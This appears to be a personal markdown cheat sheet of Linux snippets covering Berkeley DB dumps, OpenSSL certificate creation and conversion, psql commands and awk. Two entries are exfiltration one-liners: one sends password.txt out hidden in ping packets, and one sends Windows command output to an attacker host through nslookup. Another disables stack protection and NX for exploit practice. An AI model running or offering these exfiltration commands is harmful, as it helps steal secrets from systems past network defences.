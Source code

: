 # Useful Linux command line snippets

## View Berkeley DB files

```sh
$ file filename.db
postgrey.db: Berkeley DB (Btree, version 9, native byte-order)
$ db_dump -p filename.db
# <snip>
```

`db_dump` in package `core/db` on Arch/`db-util` on Debian

### in python

```python
import bsddb
for k, v in bsddb.btopen("filename.db").iteritems():
    print k, v
```

## OpenSSL one-liner to create a self-signed cert for 10 years

```sh
openssl req -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.crt
```

## gcc: enable executable stack, disable NX

```sh
gcc -fno-stack-protector -z execstack -o test test.c
```

## Postres psql commands

```
\? list all the commands.
\l(+) list databases.
\d(+) list tables, views, sequences.
\conninfo display information about current connection.
\c [DBNAME] connect to new database, e.g., \c template1.
\dt list tables.
\q quit psql.
```

This lists databases:

```
SELECT datname FROM pg_database
WHERE datistemplate = false;
```

This lists tables in the current database

```
SELECT table_schema,table_name
FROM information_schema.tables
ORDER BY table_schema,table_name;
```

## split lines and print them using awk

```
❯ cat testinput
user1          user2          user3
user4       user5     user6
user7
❯ cat testinput | awk '{printf "%s\n%s\n%s\n",$1,$2,$3}'
user1
user2
user3
user4
user5
user6
user7



# alternative solution
❯ awk '{print $1; print $2; print $3}' testinput
user1
user2
user3
user4
user5
user6
user7




```

There are newlines at the end that I can't explain, but I can live with that. I think they are because of the newline at the end of the file.

## Exfiltrate data via ping
`cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done`

## Exfiltrate data via nslookup (on Windows)
`for /F "tokens=1,2,3,4,5,6,7,8,9,10" %b in ('<cmd>') do nslookup "~!%b--%c--%d--%e--%f--%g--%h--%i--%j--%k~~" <attackerip>)`

## Generating .p12 from X509 and P7 using OpenSSL

### Generating PKCS12 Certificate using x509

 - Save Private Key in a file (cert-privkey.crt)
 - Save x509 Cert in a file (cert-pickup.crt)
 - Run Below command to generate PKCS12 Certificate (certificate.pfx)

```bash cheat openssl Convert x509 to PKCS12
openssl pkcs12 -export -out certificate.pfx -inkey cert-privkey.crt -in cert-pickup.crt
```

### Generating PKCS12 Certificate using PKCS7 Certificate

 - Save Private Key in a file (cert-privkey.crt)
 - Save x509 Cert in a file (cert-pickup.crt)
 - Run Below command to generate PKCS12 Certificate (certificate.pfx)

```bash cheat openssl convert PKCS7 to PKCS12
openssl pkcs7 -in cert-p7b-file.p7b -out smime-cert.pem -print_certs`
openssl pkcs12 -export -inkey cert-p7b-priv.key  -in smime-cert.pem -name Smime-SymantecTest -out smime-Final.pfx
```

tags: linux snippets python openssl postgresql awk
